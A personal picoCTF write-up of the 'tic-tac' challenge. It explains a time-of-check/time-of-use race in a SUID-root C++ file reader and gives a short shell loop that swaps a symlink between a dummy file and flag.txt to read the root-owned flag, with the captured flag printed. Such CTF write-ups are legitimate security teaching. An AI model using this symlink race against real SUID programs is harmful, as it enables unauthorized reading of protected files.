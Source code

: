 # Lesson
- practicing `TOCTOU` exploitation  
- `ln -sf`  
  - -s: Create a symbolic link.  
  - -f: If the target file or directory already exists, remove it and create the link.  
- `SUID`  
  a kind of permission type  
- `stat()` function from `sys/stat.h` of `c`  
  - point...  
  If the named file is a symbolic link, the stat() function shall continue pathname resolution using the contents of the symbolic link, and shall return information pertaining to the resulting file if the file exists.  
  - https://pubs.opengroup.org/onlinepubs/009696799/functions/stat.html

# Memo
1. analyze  
"txtreader" is owned by "root" and has the SUID bit set, so it runs with "root" privileges even when launched by the low-privilege "ctf-player" account.
```zsh
ctf-player@pico-chall$ whoami
ctf-player
ctf-player@pico-chall$
ctf-player@pico-chall$ ls -la
total 32
drwxr-xr-x 1 ctf-player ctf-player    20 Jan  6 14:06 .
drwxr-xr-x 1 root       root          24 Aug  4 21:50 ..
drwx------ 2 ctf-player ctf-player    34 Jan  6 14:06 .cache
-rw-r--r-- 1 root       root          67 Aug  4 21:52 .profile
-rw------- 1 root       root          32 Aug  4 21:52 flag.txt
-rw-r--r-- 1 ctf-player ctf-player   912 Mar 16  2023 src.cpp
-rwsr-xr-x 1 root       root       19016 Aug  4 21:52 txtreader
ctf-player@pico-chall$
```
```zsh
ctf-player@pico-chall$ cat ./src.cpp
```
```c
#include <iostream>
#include <fstream>
#include <unistd.h>
#include <sys/stat.h>

int main(int argc, char *argv[]) {
  if (argc != 2) {
    std::cerr << "Usage: " << argv[0] << " <filename>" << std::endl;
    return 1;
  }

  std::string filename = argv[1];
  std::ifstream file(filename);
  struct stat statbuf;

  // Check the file's status information.
  if (stat(filename.c_str(), &statbuf) == -1) {
    std::cerr << "Error: Could not retrieve file information" << std::endl;
    return 1;
  }

  // Check the file's owner.
  if (statbuf.st_uid != getuid()) {
    std::cerr << "Error: you don't own this file" << std::endl;
    return 1;
  }

  // Read the contents of the file.
  if (file.is_open()) {
    std::string line;
    while (getline(file, line)) {
      std::cout << line << std::endl;
    }
  } else {
    std::cerr << "Error: Could not open file" << std::endl;
    return 1;
  }

  return 0;
}
```

2. exploit
```zsh
ctf-player@pico-chall$ touch dummy
ctf-player@pico-chall$
ctf-player@pico-chall$ for i in {1..10000}; do ln -sf dummy flag; ln -sf flag.txt flag; done &
[1] 37
ctf-player@pico-chall$ for i in {1..10000}; do ./txtreader flag 2>/dev/null; done
picoCTF{ToctoU_!s_3a5y_0490d70a}
picoCTF{ToctoU_!s_3a5y_0490d70a}
picoCTF{ToctoU_!s_3a5y_0490d70a}
picoCTF{ToctoU_!s_3a5y_0490d70a}
```

# Ref
- https://samsclass.info/127/proj/E10.htm  
- https://brandon-t-elliott.github.io/tic-tac  
- https://medium.com/@khanzjoel55/pico-ctf-2023-writeups-a09828def8cc  